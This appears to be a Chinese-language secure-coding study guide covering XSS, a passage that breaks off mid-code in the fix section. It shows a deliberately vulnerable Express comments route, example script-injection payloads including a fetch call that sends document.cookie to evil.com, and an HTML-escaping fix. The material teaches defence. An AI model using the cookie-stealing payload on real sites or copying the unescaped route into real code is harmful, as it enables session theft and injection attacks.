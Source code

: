 **【記憶點】**
```
看到使用者輸入拼接路徑 → 想到路徑遍歷 → 使用 path.basename() 或白名單
```

---

### A04：XSS 攻擊識別

**【情境】**
評論功能：

```javascript
app.get('/comments', (req, res) => {
    const comments = db.getComments();
    let html = '<div>';
    comments.forEach(comment => {
        html += `<p>${comment.text}</p>`;
    });
    html += '</div>';
    res.send(html);
});
```

**問題**：這段程式碼有什麼安全問題？

---

**【解答】**

**漏洞：跨站腳本攻擊（XSS - Cross-Site Scripting）**

**攻擊範例**：
```javascript
// 正常評論
comment.text = "這是一個好產品"
// → <p>這是一個好產品</p>

// 惡意評論
comment.text = "<script>alert('XSS')</script>"
// → <p><script>alert('XSS')</script></p>
// 結果：腳本執行！

// 更惡意的攻擊
comment.text = "<script>fetch('https://evil.com?cookie='+document.cookie)</script>"
// 結果：竊取所有使用者的 Cookie
```

**修復方法**：
```javascript
// 方法 1：轉義 HTML（推薦）
function escapeHtml(text) {
    const map = {
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        '"': '&quot;',
        "'": '&#039;'
    };
    return text.replace(/[&<>"']/g, m => map[m]);
}

app.get('/comments', (req, res) => {
    const comments = db.getComments();
    let html = '<div>';
    comments.forEach(comment => {
        html += `<p>${escapeHtml(comment.text)}</p>`;
    });
```